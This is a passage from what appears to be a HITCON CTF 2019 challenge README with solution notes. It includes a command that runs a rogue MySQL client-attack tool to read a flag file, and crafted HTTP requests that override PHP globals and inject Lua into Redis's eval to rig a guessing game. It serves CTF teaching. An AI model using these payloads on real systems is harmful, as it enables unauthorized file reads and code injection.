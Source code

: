 ```shell
$ git clone https://github.com/lcark/MysqlClientAttack.git
$ cd MysqlClientAttack
$ python main.py -F /FLAG
```



#### Write Ups

* TBD

## **Luatic**
  
Difficulty: **★★☆**  
Solved: **42 / 1147**  
Tag:   **WhiteBox**, **Redis**, **Lua**

#### Source Code

* [Docker](hitcon-ctf-2019/luatic/)  

#### Solution

1. Override PHP global variables.
2. Redis [implements](https://github.com/antirez/redis/blob/ee1cef189fff604f165b2d20a307545840de944e/src/scripting.c#L1363) `eval` command by string concatenations so that we can escape the original Lua function to override global objects.

```
http://54.250.242.183/luatic.php
?_POST[TEST_KEY]=return 1 end function math:random() return 2
&_POST[TEST_VALUE]=0
&_POST[MY_SET_COMMAND]=eval
&_POST[token]=<token>
&_POST[guess]=2
```

```
http://54.250.242.183/luatic.php
?_POST[token]=<token>
&_POST[guess]=2
```

#### Unintended Solution

* Lua is so magic that there are several unintended solutions. Sorry for the imperfect challenge :(

#### Write Ups

* TBD

## **Buggy .Net**
  
Difficulty: **★☆**  
Solved: **13 / 1147**  
Tag:   **ASP.NET**, **WhiteBox**
